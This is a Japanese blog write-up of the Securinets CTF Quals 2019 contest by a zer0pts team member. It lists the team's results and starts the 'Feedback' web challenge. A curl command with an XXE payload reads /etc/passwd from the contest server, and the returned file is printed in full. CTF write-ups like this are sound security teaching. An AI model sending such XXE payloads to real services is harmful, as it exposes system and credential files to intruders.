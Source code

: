 ```yaml
---
layout: post
title: Securinets CTF Quals 2019 の write-up
categories: [ctf]
date: 2019-03-25 07:00:00 +0900
---
```


3 月 24 日から 3 月 25 日にかけて開催された [Securinets CTF Quals 2019](https://www.facebook.com/Securinets/) に、チーム [zer0pts](https://ctftime.org/team/54599) で参加しました。最終的にチームで 23395 点を獲得し、順位は得点 436 チーム中 2 位でした。うち、私は 10 問を解いて 9605 点を入れました。

他のメンバーの write-up はこちら。

- [Securinets CTF Quals 2019 Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2019/03/25/152043)
- [Securinets CTF Quals 2019 writeup - yoshikingのがんばる日記](https://yoshiking.hatenablog.jp/entry/2019/03/25/165855)
- [Securinets Prequals 2K19 writeup - ふるつき](https://furutsuki.hatenablog.com/entry/2019/03/25/214238)

以下、私が解いた問題の write-up です。

## Web
### Feedback (731)
> I created this website to get your feedback on our CTF.
> Can you check if it's secure ?
> Ps: flag stored in "flag" file

与えられた URL にアクセスすると、 `Full Name` `E-mail` `Feedback` の 3 つの入力欄のあるフォームが表示されました。適当な内容を入力して送信すると、`feed.php` に対して以下のような内容の POST がされました。

```xml
<?xml version="1.0" encoding="UTF-8"?><feedback><author>test</author><email>test@example.com</email><content>undefined</content></feedback>
```

どうやら XML のようです。XML と聞いて思い出すのが XXE (XML External Entity) を使った攻撃です。[XXE攻撃 基本編 \| MBSD Blog](https://www.mbsd.jp/blog/20171130.html) を参考に適当なファイルを読んでみましょう。

```
$ curl 'https://web2.ctfsecurinets.com/feed.php' --data-binary '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE feedback [<!ENTITY h SYSTEM "file:///etc/passwd">]><feedback><author>&h;</author><email>b@example.com</email><content>c</content></feedback>'
<h4>Thanks For you Feedback root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
simple_user:x:1000:1000::/home/simple_user:/bin/bash
```
